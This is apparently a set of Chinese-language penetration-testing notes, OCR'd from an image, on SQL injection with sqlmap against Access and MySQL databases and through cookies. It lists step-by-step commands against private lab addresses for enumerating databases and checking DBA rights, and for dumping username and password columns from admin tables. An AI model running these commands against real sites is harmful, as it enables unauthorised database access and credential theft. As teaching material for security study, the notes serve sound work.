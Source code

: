- 注入ACCESS数据库

猜解字段名

sqlmap.py -u "http://192.168.80.128/shownews.asp?id=16" --columns -T "manage_user"
"-T"选项，指定对哪个表进行猜解
"--columns"选项，告诉sqlmap这次的任务是猜解字段名

爆出字段内容

sqlmap.py -u "http://192.168.80.128/shownews.asp?id=16" --dump -C "username,password" -T "manage_user"
选项 "--dump"连同选项"-C"一起使用，意为猜解指定字段中的内容

sqlmap将检测结果保存到C:\Users\用户名\.sqlmap\output目录中(/root/.sqlmap/output)

- 注入MySQL数据库

检测注入点
sqlmap.py -u http://192.168.80.130/info_show.php?info_id=142

信息探测
sqlmap.py -u "http://192.168.80.130/info_show.php?info_id=142" --is-dba
判断站点的当前用户是否为数据库管理员
sqlmap.py -u "http://192.168.80.130/info_show.php?info_id=142" --dbs
检测站点中包含哪些数据库
sqlmap.py -u "http://192.168.80.130/info_show.php?info_id=142" --current-db
检测当前使用的是哪个数据库
sqlmap.py -u "http://192.168.80.130/info_show.php?info_id=142" --current-user
检测当前用户

注入流程
sqlmap.py -u "http://192.168.80.130/info_show.php?info_id=142" --tables -D "govcn"

sqlmap.py -u "http://192.168.80.130/info_show.php?info_id=142" --columns -T "admin" -D "govcn"

sqlmap.py -u "http://192.168.80.130/info_show.php?info_id=142" --dump -C "username,password" -T "admin" -D "govcn"

# cookie注入

## cookie

cookie用于在客户端本地保存用户访问网站时的一些身份验证信息

cookie与get和post方法一样，都可用于客户端向服务器端传递数据

## cookie注入

目标网站：南方数据5.0
检测注入点
sqlmap.py -u "http://192.168.80.131/shownews.asp" --cookie "id=16" --level 2

--level,指定探测等级
sqlmap共有五个等级，默认为1
级别1，探测GET和POST数据
级别2，探测cookie数据
